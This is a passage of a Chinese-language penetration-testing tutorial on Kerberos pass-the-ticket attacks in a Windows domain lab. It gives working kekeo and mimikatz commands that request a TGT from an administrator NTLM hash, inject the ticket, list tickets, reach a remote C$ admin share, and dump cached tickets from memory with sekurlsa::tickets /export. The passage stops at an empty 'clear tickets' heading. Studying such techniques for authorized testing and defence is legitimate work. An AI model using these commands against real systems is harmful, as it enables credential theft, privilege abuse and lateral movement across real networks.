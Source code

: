 ```
shell kekeo.exe "tgt::ask /user:administrator /domain:yuto.com /ntlm:579da618cfbfa85247acf1f800a280a4" "exit"
```

![image-20230717132952961](https://s2.loli.net/2023/07/17/Hq4Wc7MAVjduJxz.png)

### 导入票据

这里导入票据也是一样的，名字是你生成的那个。

```
shell kekeo.exe "kerberos::ptt TGT_administrator@YUTO.COM_krbtgt~yuto.com@YUTO.COM.kirbi" "exit"
```

![image-20230717133253915](https://s2.loli.net/2023/07/17/48uxJryIcFEDQAV.png)

### 查看票据

可以看到这里只有我们刚刚生成的一条数据。

```
mimikatz kerberos::list
```

![image-20230717133518794](https://s2.loli.net/2023/07/17/jC7BfWS6woGq843.png)

### 测试

可以看到这里是成功返回数据了，主要这里我是使用低权限的会话来操作的，不要使用成提权的system来读取数据哦。

```
shell dir \\WIN-RLI2SL6FGBD\c$
```

![image-20230717133714362](https://s2.loli.net/2023/07/17/GV43YKdxTBmgMLq.png)

## 利用本地票据演示

简单来说利用本地票据就是将域主机上历史票据导出，然后利用历史票据去验证，不过执行命令需要高权限，可能就需要进行提权了。

同时要求也是域管有没有登陆过这台主机，如果没登陆过，那么无法验证成功，如果登陆过就会留下历史凭证，这时我们只要找到这个凭证就能够成功登陆进去。

### 获取历史票据

这里先将所有的历史票据导出，在你这个进程所在的目录下，就会产生很多的前面是"[XXX]"的新票据，这里我就不截图了。

```
mimikatz sekurlsa::tickets /export
```

![image-20230717140432985](https://s2.loli.net/2023/07/17/s7v5MgfyUXAE8rY.png)

### 清空票据
